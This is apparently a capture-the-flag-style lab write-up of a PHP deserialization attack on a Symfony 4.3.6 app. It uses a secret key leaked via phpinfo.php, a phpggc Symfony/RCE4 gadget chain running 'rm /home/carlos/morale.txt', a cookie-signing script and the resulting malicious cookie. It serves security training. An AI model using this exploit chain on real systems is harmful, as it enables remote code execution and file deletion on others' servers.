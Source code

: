 ## Lab Description :

![image](https://github.com/user-attachments/assets/8f9e06a7-5887-49e7-ac45-39254865d268)


## Solution :

![image](https://github.com/user-attachments/assets/0bc3b081-6329-4720-ad63-8aa67fde3e8a)

From the token we can see that the cookie is signed using **HMAC-SHA1**.

```
{"token":"Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJ6eWt1aXpqdmcybzBiOTd2dWM1M214d2t0aG5xb2ozMSI7fQ==","sig_hmac_sha1":"2a64f65014ce2c5f34933dccc2da775dcf1355f4"}
```

From the below screenshot we can see that upon changing the cookie value, the application throws a error response revealing `**Symfony Version: 4.3.6**`.

![image](https://github.com/user-attachments/assets/85c6208b-b506-4f70-a0e9-c67a87d05480)

![image](https://github.com/user-attachments/assets/84ef553c-cb3d-4f79-9bf9-3f366c1d9b71)

Performing a GET request to **_/cgi-bin/phpinfo.php_** reveals several key informations like - `SECRET_KEY used for signing cookie is o98amn39pc65359ge8457oqy94sx4ish` , `Linux 28ed5e9f5b8` & other internal file information.

![image](https://github.com/user-attachments/assets/fe2f5218-c85d-4dad-bd9b-a356b116474a)


Since we know the **Symfony version is 4.3.6**, we can check for deserialisation vulnerabilities in that version using **PHPGCC** & create a malicious serialized payload.

![image](https://github.com/user-attachments/assets/03c9d22b-aa9f-422d-b398-ce0bcc86da37)

Now since we know that we need to use `Symfony/RCE4` gadget chain, we can create a payload to delete _morale.txt_ file under carlos's home directory.

```php
┌──(kali㉿kali)-[~/Downloads/phpggc]
└─$ ./phpggc Symfony/RCE4 exec 'rm /home/carlos/morale.txt'

O:47:"Symfony\Component\Cache\Adapter\TagAwareAdapter":2:{s:57:"Symfony\Component\Cache\Adapter\TagAwareAdapterdeferred";a:1:{i:0;O:33:"Symfony\Component\Cache\CacheItem":2:{s:11:"*poolHash";i:1;s:12:"*innerItem";s:26:"rm /home/carlos/morale.txt";}}s:53:"Symfony\Component\Cache\Adapter\TagAwareAdapterpool";O:44:"Symfony\Component\Cache\Adapter\ProxyAdapter":2:{s:54:"Symfony\Component\Cache\Adapter\ProxyAdapterpoolHash";i:1;s:58:"Symfony\Component\Cache\Adapter\ProxyAdaptersetInnerItem";s:4:"exec";}}
```
Now since we observed that the cookie is signed, we too need to sign this payload generated by phpgcc. For that we can make use of the following script.

```php
<?php
$object = "OBJECT-GENERATED-BY-PHPGGC";
$secretKey = "LEAKED-SECRET-KEY-FROM-PHPINFO.PHP";
$cookie = urlencode('{"token":"' . $object . '","sig_hmac_sha1":"' . hash_hmac('sha1', $object, $secretKey) . '"}');
echo $cookie;
```
> Make sure to update the payload generated by phpgcc & secret_key

```bash
┌──(kali㉿kali)-[~/Downloads/phpggc]
└─$ nano signing_script.php
                                                                                                                                                                                             
┌──(kali㉿kali)-[~/Downloads/phpggc]
└─$ php signing_script.php
 
%7B%22token%22%3A%22O%3A47%3A%22Symfony%5CComponent%5CCache%5CAdapter%5CTagAwareAdapter%22%3A2%3A%7Bs%3A57%3A%22Symfony%5CComponent%5CCache%5CAdapter%5CTagAwareAdapterdeferred%22%3Ba%3A1%3A%7Bi%3A0%3BO%3A33%3A%22Symfony%5CComponent%5CCache%5CCacheItem%22%3A2%3A%7Bs%3A11%3A%22%2ApoolHash%22%3Bi%3A1%3Bs%3A12%3A%22%2AinnerItem%22%3Bs%3A26%3A%22rm+%2Fhome%2Fcarlos%2Fmorale.txt%22%3B%7D%7Ds%3A53%3A%22Symfony%5CComponent%5CCache%5CAdapter%5CTagAwareAdapterpool%22%3BO%3A44%3A%22Symfony%5CComponent%5CCache%5CAdapter%5CProxyAdapter%22%3A2%3A%7Bs%3A54%3A%22Symfony%5CComponent%5CCache%5CAdapter%5CProxyAdapterpoolHash%22%3Bi%3A1%3Bs%3A58%3A%22Symfony%5CComponent%5CCache%5CAdapter%5CProxyAdaptersetInnerItem%22%3Bs%3A4%3A%22exec%22%3B%7D%7D%22%2C%22sig_hmac_sha1%22%3A%2282fdabbf5fa7c15a1f455057d72040e5426291dc%22%7D
```

Send the url-encoded token as cookie & observe that the server throws a error & at the same time executes the serialized payload & deletes the morale.txt file.

![image](https://github.com/user-attachments/assets/6488528d-8c02-4915-a9e4-5284db0cd32b)

![image](https://github.com/user-attachments/assets/db1718d1-3663-4844-a59f-7ba1ac188c2c)

